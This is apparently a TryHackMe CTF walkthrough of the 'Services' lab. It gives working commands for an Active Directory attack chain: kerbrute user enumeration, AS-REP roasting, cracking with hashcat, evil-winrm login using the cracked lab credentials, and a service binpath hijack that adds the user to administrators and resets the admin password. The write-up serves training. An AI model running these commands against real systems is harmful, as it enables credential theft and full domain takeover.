 
![Screenshot from 2023-07-24 12-07-44](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/60b869f4-3ea0-4594-98c5-06636e1e0b8d)

# Services-THM-Walkthrough

This is the writeup for the Services CTF challenge on TryHackMe!
https://tryhackme.com/room/services

tags: enumerate, hash cracking, exploit, brute-force, kerbrute

Highlight: Enumerating active directory users using kerbrute, capturing a password hash using AS-REP-ROASTING.


## **ENUMERATION**

First let's kick things off with some classic nmap scans to get a lay of the land.
Initial Setup

export IP=10.10.117.221
export myIP=10.13.24.71
 
sudo nmap -v --min-rate 10000 <Target's IP address> -p- | grep open

We can use standard expressionw to efficiently sort nmap results and grab all of the open ports for a script scan.

`cat tmp | sed 's/\// /g' | awk '{print $1}' | tr "\n" ","`
![Screenshot from 2023-07-24 11-49-23](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/6ad9c92d-8bd2-44a0-9e5a-fc7beea1f90b)

We'll follow up now with a full scan:
`sudo nmap -v -sVC -oN nmap.txt <Target's IP address> -p <ports>`

roasting:
smbclient -L //$IP/
smbmap -u 'anonymous' -H $IP

ENUMERATION:
walk the port 80 website. We quickly identify some employee names from the employees listed on the site.

![Screenshot from 2023-07-24 12-03-22](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/6d7f921d-534f-4d0a-a579-cb570525e633)

And here is a naming convention, revealed by the contact email:
![Screenshot from 2023-07-24 12-05-09](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/994b794b-6a50-47e1-b3bf-d04ac846b860)

Using the naming convention from the contact email, we can compile a shortlist now of possible usernames.
![Screenshot from 2023-07-24 12-12-54](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/d6fd88fd-be54-4efa-b96a-006dc9a1f653)

Next, we'll move on to active directory username enumeration.
## **KERBRUTE**

`kerbrute userenum --dc $IP -d services.local users.txt`

We found some valid users!
![Screenshot from 2023-07-24 12-20-23](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/8b76634d-69bc-4aba-a1e9-8ac9310376e6)

AS-REP ROASTING WITH GetNPUsers.py:
`GetNPUsers.py -dc-ip $IP -request 'services.local/' -usersfile users.txt -format hashcat`

![Screenshot from 2023-07-24 12-22-08](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/7632cdf0-fc94-4e3c-a083-f3a2d592afde)
Boom Shack-a-lacka! j.rock hash is revealed!

## **CRACKING THE HASH WITH HASHCAT**
Use hashcat to crack the hash:
`hashcat -m 18200 hash.txt rockyou.txt'

Bingo! We are in business. Let's log in next with evil-winrm with our newly-found creds.
j.rock:Serviceworks1

## **EVIL-WINRM**
`evil-winrm -i $IP -u j.rock -p Serviceworks1`

## **LOCAL ENUMERATION**
`whoami /all`

We see that j.rock is in the 

Next, let's check services:

`services`
![Screenshot from 2023-07-24 12-26-09](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/7f82a997-9476-47a3-af3a-910d4bf1479d)


Our privesc path forward will be binpath hijacking with the ADWS service. 

build a revshell exe binary with this github:
https://github.com/dev-frog/C-Reverse-Shell

## **BINPATH HIJACKING**
`sc.exe config ADWS binpath="net localgroup administrators j.rock /add"`
start and stop the service
log out/in

CHANGE THE ADMIN PASSWORD
net user administrator hellothisisatest123!

log out and back in with admin 
![Screenshot from 2023-07-24 12-41-24](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/52b256ff-1582-4ca6-bb24-61959a69ebc9)

grab the root flag!
![Screenshot from 2023-07-24 12-42-11](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/8577bce9-6fcf-4975-83b8-dce228acc582)


